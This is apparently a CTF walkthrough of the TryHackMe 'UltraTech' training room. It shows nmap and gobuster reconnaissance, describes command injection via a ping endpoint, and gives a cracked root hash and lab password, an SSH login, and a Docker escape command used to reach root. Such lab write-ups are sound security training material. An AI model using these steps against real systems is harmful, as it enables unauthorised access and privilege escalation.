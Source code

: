 ```yaml
---
title: UltraTech
date: 2022-12-17 18:32:00 -0500
categories: [Walkthrough, Tryhackme, CTF]
tags: [security, pentest, enumeration, web]
---
```


<https://tryhackme.com/room/ultratech1> The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

# Notes

Given some inspiration, and if we get stuck keep enumerating because I for sure will miss something.

> You have been contracted by UltraTech to pentest their infrastructure.
> It is a grey-box kind of assessment, the only information you have
> is the company's name and their server's IP address.

* * * 

- `sudo nmap -p- ultratech.thm -vvv -T 4`
- `sudo nmap -sC -sV -sT -O -p21,22,31331,8081 ultratech.thm`

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 5.4 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.10 (92%), Linux 3.12 (92%), Linux 3.19 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.44 seconds
```

perform some gobuster scans on the open servers

during the gobuster scan 8081 we find 2 routes auth and ping the 31331 doesnt yeild much results.

```
/auth                 (Status: 200) [Size: 39]
/ping                 (Status: 500) [Size: 1094]
/Ping                 (Status: 500) [Size: 1094]
/Auth                 (Status: 200) [Size: 39]
```

found a login page at `/partners.html` on 31331 that was refrenced in the sitemap.txt but not linked to in the website.

this form sends a GET request to /ping?ip=ultratech.thm

which sends a GET request to /auth?login=admin&password=pass on :8081

then sends another request back to /ping

capturing the request in burpsuite and sending to the repearing the ping is actually executing ping on the machine, maybe we can do something with this.

trying many requests finally using tilda apostrophe thing manage to get the response of the sqlite db utech.db.sqlite

using cat we can get r00t hash f357a0c52799563c7c7b76c1e7543a32 and crack.

- `hashcat -m 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/seclists/Passwords/rockyou.txt`

r00t:n100906

we can login via ssh

checking id shows us we are in a docker container, maybe we can escape. 

we can list available docker images with `docker ps -a`, then escape with `docker run -v /:/mnt --rm -it bash chroot /mnt sh`

as root we can access our final flag which is the first 9 chars of the root's private ssh key which is located in `/root/.ssh/`